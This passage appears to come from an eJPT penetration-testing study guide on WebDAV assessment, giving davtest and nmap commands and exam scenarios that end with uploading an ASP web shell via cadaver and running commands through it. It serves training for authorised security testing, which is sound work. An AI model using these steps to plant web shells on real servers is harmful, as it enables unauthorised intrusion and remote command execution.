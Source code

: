 #### **Level 3 - Advanced (30% exam probability):**
```bash
# Professional clean testing
davtest -cleanup -auth creds -url http://target/webdav

# Debug mode for troubleshooting
davtest -debug -auth creds -url http://target/webdav
```

### **🎯 eJPT Exam Scenarios & Expected Responses:**

#### **Scenario 1: WebDAV Server Discovery**
**Given:** Web server with unknown configuration on port 80
**Task:** Identify if WebDAV is enabled and assess capabilities

**Expected Approach:**
```bash
# Step 1: Port scan with service detection
nmap -sV -p 80 --script http-enum target_ip

# Step 2: Test for WebDAV
davtest -url http://target_ip/webdav
davtest -url http://target_ip/
davtest -url http://target_ip/dav

# Step 3: Document findings and proceed with authentication testing
```

#### **Scenario 2: File Upload Vulnerability Assessment**
**Given:** WebDAV server with known credentials
**Task:** Determine which file types can be uploaded and executed

**Expected Approach:**
```bash
# Comprehensive assessment
davtest -auth provided_creds -url http://target/webdav

# Document results in format:
# - Uploadable file types: [list]  
# - Executable file types: [list]
# - Exploitation potential: [HIGH/MEDIUM/LOW]
```

#### **Scenario 3: Web Shell Deployment**
**Given:** DavTest results showing ASP files are executable
**Task:** Deploy web shell for command execution

**Expected Workflow:**
```bash
# 1. Confirm findings with davtest
davtest -auth creds -url http://target/webdav

# 2. Deploy shell using cadaver (covered in separate module)
cadaver http://target/webdav
put /usr/share/webshells/asp/cmd.asp

# 3. Verify execution via browser
# Navigate to: http://target/webdav/cmd.asp?cmd=whoami
```
